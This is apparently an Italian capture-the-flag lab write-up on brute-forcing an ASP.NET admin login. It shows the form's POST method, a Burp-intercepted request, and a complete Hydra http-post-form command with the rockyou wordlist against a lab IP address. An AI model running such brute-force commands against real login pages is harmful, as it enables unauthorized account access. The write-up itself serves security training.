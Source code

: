Dobbiamo trovare una pagina di login da attaccare e identificare che tipo di richiesta il modulo sta facendo al webserver. In genere, i webserver fanno due tipi di richieste, una richiesta **GET** che viene usata per richiedere dati da un webserver e una richiesta **POST** che viene usata per inviare dati a un server.

Puoi controllare quale richiesta sta facendo un modulo cliccando con il tasto destro sul modulo di login, ispezionando l'elemento e poi leggendo il valore nel campo metodo. Puoi anche identificarlo se stai intercettando il traffico tramite BurpSuite (altri metodi HTTP possono essere trovati [qui](https://www.w3schools.com/tags/ref_httpmethods.asp) ).

```
http://10.10.131.80/Account/login.aspx?ReturnURL=/admin/
```
ispezioniamo il codice
```
<form method="post" action="login.aspx?ReturnURL=%2fadmin%2f" id="Form1">
```

Quale tipo di richiesta utilizza il modulo di accesso al sito Web di Windows?
```
POST
```

intercettiamo con burpsuite
```
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.131.80
User-Agent: J
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 563
Origin: http://10.10.131.80
Connection: keep-alive
Referer: http://10.10.131.80/Account/login.aspx?ReturnURL=/admin/
Upgrade-Insecure-Requests: 1

__VIEWSTATE=SDVOgAcc2bi7lFwyomjge%2FWcvUCC2Pf0vQ8P08Yb3JnS8YgdeCuuwwFd8regGiwu1b4fULsdk8Bkzruglna%2FJFZAlh93jPGd5mxuLl3%2B%2BacMW8QFanqWb33Yf%2Ff%2FX2E4mysSpY3VtfVerpMznqcXN%2ByHxvr35u9UsxTNMRFTpatVpBcd&__EVENTVALIDATION=9rtmtP3hCR7ASJqIUcp7Mnz9yg5UDa796jMEePKT6Y%2Bc%2BE1EWKSg%2Bd7%2BMlPWa7viyDYsrQXbJwts93s7wN%2B5j50oCsUzEdDiZdeVzKK161%2B8CtxF8Qk%2Bo8aaTc43ixQ7vLfOo3S6HHH1e2x5EGB82WwESYAMAfUQgAcNfTF3o3MM1jxE&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=123456&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```


```
hydra -l <nomeutente> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.131.80 http-post-form '/Account/login.aspx:__VIEWSTATE=9RhjEa3BtTcf%2BkfbOW9bfpeS%2BZReu3SfG912AiyXqwcEfw0bCBxJSEHTV1MoarhXqFVtErutkeBbRiHb%2B0opcHlgZgoGJGLfOPSfzDjMgPc3Xjqw6sZaMFXjA2ZQBHBUEdIxbO367QmonLBFq8Uz9YlkLmFFuggm%2FLXOeY9IWzdJdtoe9Q1bJwttW%2FPAwQuG9leJOUotBUixIJzdfJvN%2F1YCT0dbGDvzPKZR%2Fzkwbsc4s0SbvNBr9NJgHLighlsP1XFsy1VarihP4Xd9kSGOr2ef3TDoBXFk6TjT7i7xBU41%2BF0s8oMsOTXF2LXOxHr4kKO86Pobq9v8koxe88Ej%2BDsItdfmYouR1bOVupRYOvtrf6WL&__EVENTVALIDATION=fXym4Bx%2FFZEtjjBd5anYlUJ32X3V%2Fp%2FF9puhcMDEW3rO9jGOflpX3JUWcMjhgNvAjXAhr0sLl%2B54oRgib6M9I7J6IuiQS45suYpkbVQlbDRBi88ZHpp8dOuu1NrLInmlyUEaYt40ymVHHRR5qOJ6twuG3LAcWtL7LxL5cId3FeiD8wOA&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed' -f
```
oppure (cambia solo sintassi Login failed)
```
```
